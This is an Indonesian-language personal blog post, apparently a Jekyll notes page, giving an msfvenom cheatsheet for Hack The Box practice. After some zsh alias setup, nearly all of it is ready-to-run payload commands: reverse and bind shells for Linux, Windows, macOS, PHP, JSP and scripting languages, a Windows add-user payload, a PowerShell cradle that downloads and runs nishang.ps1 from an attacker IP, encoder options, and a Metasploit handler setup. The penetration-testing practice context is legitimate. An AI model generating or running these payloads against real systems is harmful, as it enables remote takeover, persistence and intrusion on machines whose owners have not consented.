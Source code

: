 ```yaml
---
layout: post
title: "msfvenom cheatsheet"
date: 2023-08-25
categories: Notes
---
```


sudah saya bilang saya orangnya mageran, dan ingin mengumpulkan sebanyak mungkin resource yang sering lupa, walaupun sudah menggunakan `kitty` sebagai terminal dan `zsh` sebagai shell utama.
tetap saja saya sering saja lupa.

sebelum itu saya sudah mencoba membuat `export` variable ke `.zshrc` agar tidak menggunakan perintah `ip add`, terus terusan. Dan saya menginstall `xclip` untuk mengirim argument ke clipboard.
dan mencoba menjadikannya sebagai alias `cboard` untuk memendekkanya.
```sh
HTB_HOST=$(ip add show tun0 2>&1 | tail +3 | head -1 | cut -f6 -d " " | awk '{print substr( $0, 1, length($0)-3)}') # htb ip address
CUSTOM_HOST=$(ip add show vboxnet0 2>&1 | tail +3 | head -1 | cut -f6 -d " " | awk '{print substr( $0, 1, length($0)-3)}') # biar ga repot aja sih while playing custom virtual machines.
```
ini dia tampaknya.
```sh
alias cboard="xclip -sel clipboard"
```
## msfvenom cheatsheet
```
msfvenom -l payloads 
msfvenom -p PAYLOAD --list-options 
msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP 
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf #Linux Meterpreter reverse shell x86 multi stage
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf #Linux Meterpreter bind shell x86 multi stage
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf # Linux bind shell x64 single stage
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf  #Linux reverse shell x64 single stage 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe  #Windows Meterpreter reverse shell 
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe  #Windows Meterpreter #http reverse shell 
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe  #Windows Meterpreter bind shell 
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe  #Windows CMD Multi Stage 
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe  #Windows CMD Single Stage 
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe  #Windows add user 
msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho  #Mac Reverse Shell 
msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho  #Mac Bind shell 
msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py  #Python Shell 
msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh  #BASH Shell 
msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl  #PERL Shell 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp  #ASP Meterpreter shell 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp  #JSP Shell 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war  #WAR Shell 
msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php  pbcopy && echo '?php '  tr -d '\n' shell.php && pbpaste shell.php  #Php Meterpreter Shell 
msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php  #Php Reverse Shell 
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f python  #Windows Exec Nishang Powershell in python 
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0"  #Bad characters shikata_ga_nai 
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0"  #Bad characters fnstenv_mov 
```
## multi handler
```
msf> use exploit/multi/handler  
msf> set payload windows/meterpreter/reverse_tcp  
msf> set lhost <IP>  
msf> set lport <PORT>  
msf> set ExitOnSession false  
msf> exploit -j  
```
## references
* <https://github.com/frizb/MSF-Venom-Cheatsheet>
* <https://pentestwiki.org/msfvenom-payloads-cheat-sheet/>